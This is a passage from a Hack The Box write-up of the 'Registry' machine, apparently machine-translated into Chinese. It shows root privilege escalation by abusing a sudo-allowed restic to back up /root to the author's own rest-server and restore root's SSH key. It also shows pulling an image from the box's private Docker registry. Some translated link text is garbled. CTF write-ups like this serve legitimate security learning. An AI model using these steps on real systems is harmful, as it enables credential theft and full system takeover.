restic.readthedocs.io](https://restic.readthedocs.io/en/latest/050_restore.html#restoring-from-a-snapshot) 

注意`**f5e86ed9**` 是我们从之前的截图中得到的快照 ID。由于备份快照是由 root 完成的，我们似乎有权限问题。

让我们试着备份到我们自己的盒子里。由于出站连接被阻塞，让我们通过 SSH 隧道进行端口转发。


我们可以通过使用下面的 repo 来建立一个 rest-server。

[](https://github.com/restic/rest-server) [## restic/rest-服务器

### Rest Server 是一个高性能的 HTTP 服务器，它实现了 restic 的 Rest 后端 API。它提供了安全和…

github.com](https://github.com/restic/rest-server) 

```
**restic init --repo rest123**
```

然后开始按`**rest-server**`

```
**rest-server --path rest123 --no-auth**
```

将/root 文件夹备份到我们的`**rest123**` **。**

```
**sudo /usr/bin/restic -r backup rest:http://127.0.0.1:8000/ /root**
```

并通过以下方式恢复了快照

```
**restic -r rest123 restore latest --target restore/**
```

我获得了 root SSH 密钥，并以 root 身份登录



# 额外的

## SSH 信用的另一种方式

不用下载所有的 blobs，我们可以直接提取 docker 图像并从那里进行枚举。

```
**The command to pull images from private registry is as follows:****docker pull HOST:PORT/IMAGE_NAME**
```



我们有一个证书问题。让我们先登录 docker 注册表。我遵循了中提到的步骤

[](https://stackoverflow.com/questions/50768317/docker-pull-certificate-signed-by-unknown-authority) [## 由未知机构签署的“码头工人拉动”证书

### 感谢贡献一个堆栈溢出的答案！请务必回答问题。提供详细信息并分享…

stackoverflow.com](https://stackoverflow.com/questions/50768317/docker-pull-certificate-signed-by-unknown-authority) 

我从[https://docker . registry . htb](https://docker.registry.htb)下载 SSL 证书，然后



```
**root@kali:~/htb/boxes/registry#** ls                                                                                                                    
docker_fetch  docker_registry_htb.crt  gobust-443.log  gobust-80.log  initial.nmap  install.gz                                                               
**root@kali:~/htb/boxes/registry#** cp docker_registry_htb.crt /etc/docker/certs.d/my-registry.example.com:5000/ca.crt                                           
cp: cannot create regular file '/etc/docker/certs.d/my-registry.example.com:5000/ca.crt': No such file or directory                                          
**root@kali:~/htb/boxes/registry#** cp docker_registry_htb.crt /etc/docker/certs.d/docker.registry.htb/ca.crt                                                    
cp: cannot create regular file '/etc/docker/certs.d/docker.registry.htb/ca.crt': No such file or directory                                                   
**root@kali:~/htb/boxes/registry#** cd /etc/docker/certs.d                                                                                                       
-bash: cd: /etc/docker/certs.d: No such file or directory                                                                                                    
**root@kali:~/htb/boxes/registry#** mkdir /etc/docker/certs.d                                                                                                    
**root@kali:~/htb/boxes/registry#** mkdir /etc/docker/certs.d/docker.registry.htb                                                                                
**root@kali:~/htb/boxes/registry#** cp docker_registry_htb.crt /etc/docker/certs.d/docker.registry.htb/ca.crt
```

然后取出图像，



```
**root@kali:~/htb/boxes/registry#** docker run -it docker.registry.htb:443/bolt-image:latest
**root@b4a768d65575:**/# ls                                                                                                                                               
bin  boot  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
```

感谢阅读，

如果你喜欢这篇文章，请留下掌声或评论。

普瑞瑟姆·博玛(【https://twitter.com/PreethamBomma_】T2******